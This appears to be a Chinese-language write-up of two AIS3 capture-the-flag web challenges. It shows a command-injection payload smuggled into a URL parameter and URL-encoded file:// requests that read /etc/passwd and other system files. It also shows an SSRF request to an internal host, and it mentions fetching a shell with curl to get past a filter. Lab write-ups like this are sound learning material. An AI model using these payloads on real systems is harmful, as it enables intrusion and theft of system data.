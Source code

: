 最後找到根目錄存在疑似為 flag 的檔案並且讀取

``` plaintext
https://squirrel.ais3.org/api.php?get=/5qu1rr3l_15_4_k1nd_0f_b16_r47.txt' ;ls /;echo'
```

這題也可以透過 grep 或 find 來加快找到 flag 的速度，構造 payload 發現好像彈不出 shell  原因是因為被過濾，這個也可以 bypass ，只需要透過 curl 下載現有的 shell 即可。

``` plaintext
AIS3{5qu1rr3l_15_4_k1nd_0f_b16_r47}
```

### Shark

進入後看到 hint 的地址在

**https://shark.ais3.org/?path=hint.txt**

這個網址直覺理應想到 LFI 相關的漏洞，可以用 `./` 之類的方式驗證但這題有過濾器，讀取 `index.php` 則看到僅僅可以載入內容但不是 LFI 之類的，不過依然可以有其他利用的部份，hint 也提到要讀取其他伺服器內容，嘗試進行 SSRF 。

進入查看可以看到

https://shark.ais3.org/?path=index.php

``` plaintext
preg_match('/^(\.|\/)/', $path)
```

代表需要邊碼，而編碼的部份只需要避免被過濾器過濾，在 `file_get_contents` 執行時依然可以正常連線，。

``` plaintext
 hex(ord('/'))
\>>> hex(ord('.'))
'0x2e'
```

收集一些資訊故意報錯或許可以用到。

``` plaintext
 /var/www/html/index.php  
```

一次編碼，如果不使用 file 協議的話，傳入的 `%2F` 依然會被轉譯，嘗試觀察幾個地點

``` plaintext
file:%2F%2F%2Fetc%2Fpasswd
https://shark.ais3.org/?path=file:%2F%2F%2Fetc%2Fpasswd

file:///etc/hosts
https://shark.ais3.org/?path=file%3A%2F%2F%2Fetc%2Fhosts

https://shark.ais3.org/?path=file%3A%2F%2F%2Fetc%2Fresolv.conf
https://shark.ais3.org/?path=file%3A%2F%2F%2Fetc%2Fhostname
```

發現自己 ip 是 172.22.0.3 有沒有 2 呢？

``` plaintext
http://172.22.0.2/flag
https://shark.ais3.org/?path=http%3A%2F%2F172.22.0.2%2Fflag
```
